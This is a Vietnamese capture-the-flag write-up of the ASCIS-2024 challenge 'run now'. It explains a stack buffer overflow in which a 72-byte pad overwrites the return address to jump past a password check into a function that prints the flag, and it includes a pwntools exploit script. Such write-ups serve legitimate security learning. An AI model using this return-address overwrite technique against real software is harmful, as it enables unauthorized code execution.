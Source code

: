# [ASCIS-2024] run now
<p>Chương trình cho một menu gồm 4 lựa chọn. Trong lựa chọn số 1, đọc tối đa 127 byte vào s. Biến s có kích thước 127 byte nên chưa có buffer overflow ở đoạn này. Sau đó, truyền tham số s vào hàm quantum_entangle.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post9/image.png)

<p>Trong hàm quantum_entangle, copy nội dung a1 vào dest. Vì dest chỉ chứa 64 byte < 128 byte -> Buffer overflow -> Cần đệm 72 byte (64 của dest + 8 của rbp) để tới RIP.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post9/image-1.png)

<p>Ngoài ra còn có hàm secret_lab để đọc nội dung flag -> Mục tiêu: kiểm soát giá trị RIP trên stack để trỏ về hàm secret_lab. Ở đây, ta có thể đi tới thẳng tới địa chỉ chuẩn bị thực thi hàm system để bỏ qua việc nhập password.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post9/image-2.png)

<p>Bắt đầu từ địa chỉ main+120, lệnh "cat flag.txt" bắt được lấy ra và đưa vào thanh ghi rdi để set tham số cho hàm system.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post9/image-3.png)

<p>Script exploit:</p>

```
from pwn import *

p = process('./chall')
elf = ELF('./chall')

secret_lab = p64(elf.symbols['secret_lab'] + 120)

payload = b'a' * 72
payload += secret_lab

p.sendlineafter(b'Enter your choice: ', b'1')
p.sendlineafter(b'Enter quantum coordinates: ', payload)

p.interactive()
```

<p>Chạy script và lấy được flag thành công.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post9/image-4.png)


